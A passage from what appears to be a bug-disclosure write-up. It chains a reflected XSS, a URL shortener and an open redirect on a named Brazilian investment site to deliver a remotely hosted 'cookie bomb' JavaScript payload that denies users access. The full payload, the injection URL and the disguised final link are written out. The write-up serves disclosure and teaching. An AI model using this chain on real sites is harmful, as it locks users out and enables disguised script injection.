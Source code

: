 
### Proof of Concept

In practice the exploit would look like this:

1. First we need to serve JavaScript on the Internet that makes the creation of cookies in an abusive way for our target:
    
    -
    ```javascript
    var base_domain = document.domain.substr(document.domain.indexOf('.'));
    var pollution   = Array(4000).join('a');

    for (var i = 1; i < 99; i++) {
        document.cookie='bomb' + i + '=' + pollution + ';Domain=' + base_domain + ";path=/";
    }

    window.location="https://" + document.domain;
    ```
    
    * Hosted on: [https://heitorgouvea.me/public/payloads/bomb.js](https://heitorgouvea.me/public/payloads/bomb.js)
    
    -

2. We need to get our RXSS to read/execute this JavaScript: 
    
    [https://indique.easynvest.com.br/?nome=><audio src="" onerror=import('//heitorgouvea.me/public/payloads/bomb.js');>&id=1]()

    -

3. We need to direct the user to this malicious RXSS in the least suspicious way possible: with a URL shortener we can mask our payload: [https://cutt.ly/syPnJXp]()

    -

The final payload looks like this: [https://easynvest.com.br/autenticacao?redirect_url=https://cutt.ly/syPnJXp]()

And this was the result:

<iframe width="100%" height="523" src="https://www.youtube.com/embed/-L2pl1Ke_Lo" title="Cookie Bomb - easynvest.com.br" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

---

### Impact

An attacker could use this chain of vulnerabilities to generate several scenarios that present some type of risk to users of the application, and this publication addressed only one of the possible scenarios where it shows the possibility that an attacker would be able to "make" the application unavailable for a certain group of users if they accessed the link sent by it.

---

### Conclusion
